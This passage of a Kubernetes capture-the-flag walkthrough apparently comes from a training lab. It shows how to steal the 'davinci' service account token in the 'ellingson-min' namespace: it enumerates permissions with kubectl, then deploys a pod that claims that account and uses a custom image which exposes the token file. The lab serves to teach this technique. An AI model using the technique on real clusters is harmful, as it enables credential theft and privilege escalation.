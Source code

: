 129. This is the next puzzle in the CTF. How can you steal the `davinci` service account token in the `ellingson-min` namespace?

130. Find out what your new service account token is allowed to do in the `ellingson-min` namespace:

        ```shell
        kubectl -n ellingson-min auth can-i --list
        ```

131. Notice that we're allowed to create, list and read pods and that we're also allowed to list and read services. Here's an excerpt of the output of the last command on our test system:

        ```
        pods                                            []                                    []               [create get list]
        ...
        services                                        []                                    []               [list get]
        ```

132. Here's the insight. If we can deploy a pod in this namespace, we can name any service account we'd like in the pod manifest. The pod will get that service account and will get a token as that account. There isn't anything in "stock" Kubernetes that would prevent that.

133. Let's deploy a new pod in the `ellingson-min` namespace, called `getsa`, naming `davinci` as the `serviceAccountName` value. We'll use an image called "sharemysatoken" which we've made that shares its web server logs, but also shares its serviceaccount token file:

        ```shell
        cat <<ENDL >pod.yaml
        apiVersion: v1
        kind: Pod
        metadata:
          name: getsa
          namespace: ellingson-min
          annotations:
            container.apparmor.security.beta.kubernetes.io/getsa: runtime/default
            seccomp.security.alpha.kubernetes.io/pod: runtime/default
        spec:
          serviceAccountName: davinci
          securityContext:
            runAsUser: 101
            runAsGroup: 100
            fsGroup: 100
          containers:
          - name: getsa
            image: docker-registry:5000/bustakube/sharemysatoken
            securityContext:
              allowPrivilegeEscalation: false
          imagePullSecrets:
          - name: regcred-docker-registry-5000
        ENDL

        kubectl apply -f pod.yaml
        ```

